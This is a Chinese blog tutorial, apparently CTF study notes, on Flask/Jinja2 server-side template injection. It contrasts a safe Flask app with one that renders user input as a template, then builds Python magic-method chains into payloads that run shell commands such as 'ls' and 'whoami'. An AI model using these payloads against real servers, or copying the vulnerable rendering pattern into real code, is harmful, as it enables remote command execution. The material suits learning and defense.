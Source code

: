 ```yaml
---
layout: post
title: 2020-12-07-SSTI模板注入与Flask基础（略带沙箱逃逸）
date: 2020-12-07
categories: blog
tags: [web,php]
description: 学习Flask模板注入了
typora-copy-images-to: ..\img
typora-root-url: ..
---
```


# SSTI模板注入与Flask基础

### Flask简介

Flask是一个Python上的**Web应用程序框架**（Web Application Framework）。

**Web应用程序框架**是一个库和模块的集合，使Web应用程序开发人员能够编写Web应用程序，而不必担心协议，线程管理等低级细节。



Flask基于**Werkzeug WSGI**工具包和**Jinja2**模板引擎。

> ##### Werkzeug
>
> 它是一个WSGI工具包，它实现了请求，响应对象和实用函数。 这使得能够在其上构建web框架。 Flask框架使用Werkzeug作为其基础之一。
>
> ##### jinja2
>
> jinja2是Python的一个流行的模板引擎。Web模板系统将模板与特定数据源组合以呈现动态网页。
>
> Flask通常被称为微框架。 它旨在保持应用程序的核心简单且可扩展。Flask没有用于数据库处理的内置抽象层，也没有形成验证支持。相反，Flask支持扩展以向应用程序添加此类功能。

**Jinjia模板引擎特点**

![img](/img/GWPZOU`R82WY3%4ST{W[}JI.png)

**控制语句**

![image-20201222222445589](/img/image-20201222222445589.png)

 **注意：不可以使用`continue`和`break`表达式来控制循环的执行。**

**过滤器**

过滤器是通过（`|`）符号进行使用的，例如：`{{ name|length }}：`将返回name的长度。

过滤器相当于是一个函数，把当前的变量传入到过滤器中，然后过滤器根据自己的功能，再返回相应的值，之后再将结果渲染到页面中。

## SSTi漏洞的产生

ssti漏洞产生于网页模板中的变量被二次渲染时。

什么是二次渲染，这里用两个例子简单展示：

无二次渲染：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html='<h1>Welcome</h1></br><p>{{str}}</p>'
    return render_template_string(html,str=str)
if __name__=='__main__':
    app.run()
```

有二次渲染行为：

```python
from flask import *

app=Flask(__name__)
@app.route('/')
def index():
    str=request.args.get('s')
    html="<h1>Welcome</h1></br><p>%s</p>"%(str)
    return render_template_string(html)
if __name__=="__main__":
    app.run()
```

如果在页面中找到了这样一个ssti漏洞，便意味着我们能够在这个注入点执行该模板引擎的控制语句以及命令

Flask SSTI 题的基本思路就是利用 python 中的 **魔术方法** 找到自己要用的函数。

```
__dict__：保存类实例或对象实例的属性变量键值对字典

__class__：返回调用的参数类型

__mro__：返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。 

__base__: 返回该对象所继承的基类

__bases__：返回该对象所继承的类型列表

__subclasses__：以一个列表的形式返回对象的子类

__init__：类的初始化方法

__globals__：函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
```

基本步骤：

使用魔术方法进行函数解析，再获取基本类：

```python
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] //针对jinjia2/flask为[9]适用
```

获取基本类后，继续向下获取基本类 object 的子类：

```python
object.__subclasses__()
```

这里有可能子类中就含有可以利用的函数，如file,eval等，但是一般是没有的

可以用以下模板控制语句找找看

![image-20201222222642704](/img/image-20201222222642704.png)

找到重载过的__init__类（在获取初始化属性后，带 wrapper 的说明没有重载，寻找不带 warpper 的）：

```python
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>
>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

或者用模板控制语句找到可以利用的模块，或者__builtins__

![image-20201222222733823](/img/image-20201222222733823.png)



构造payload

```
''.__class__.__base__.__subclasses__()[59]

''.__class__.__base__.__subclasses__()[81].__init__.__globals__['__builtins__']

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

''.__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("whoami").read()')
```

